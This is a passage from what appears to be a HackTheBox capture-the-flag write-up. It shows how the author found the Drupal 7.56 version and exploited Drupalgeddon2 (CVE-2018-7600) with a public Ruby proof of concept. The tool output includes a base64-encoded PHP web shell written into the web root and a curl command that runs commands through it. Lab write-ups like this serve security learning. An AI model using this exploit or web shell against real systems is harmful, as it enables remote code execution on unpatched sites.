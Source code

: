 ```
```

The Nmap scan reported that the target was running version 7 but `changelog.txt` was more helpful as it provided valuable information about the specific version of Drupal 7 and I was able to enumerate information about latest security patches.

![changelog](Images/changelog.png)

Researching that particular version of Drupal provided more information about the [Drupalgeddon2](https://unit42.paloaltonetworks.com/unit42-exploit-wild-drupalgeddon2-analysis-cve-2018-7600/) exploit. The webpage on port 80 involved creating an account but it also required verifying via email which is a bit tricky with HackTheBox. However, since I had the granular version number, I was able to proceed. I was able to query a relevant exploit with `Searchsploit` but in this case, the results were slightly elusive and I ended up resorting to a [Github PoC](https://github.com/dreadlocked/Drupalgeddon2). 

## Gaining User Foothold

Having installed Highline, a dependency for the script to run, I was able to get a break through 

```
gem install highline

ruby drupalgeddon2.rb http://$machine_IP
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://$machine_IP/
--------------------------------------------------------------------------------
[+] Found  : http://$machine_IP/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.56
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo DPDCPLVM
[+] Result : DPDCPLVM
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://$machine_IP/shell.php)
[i] Response: HTTP 404 // Size: 5
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://$machine_IP/shell.php' -d 'c=hostname'
```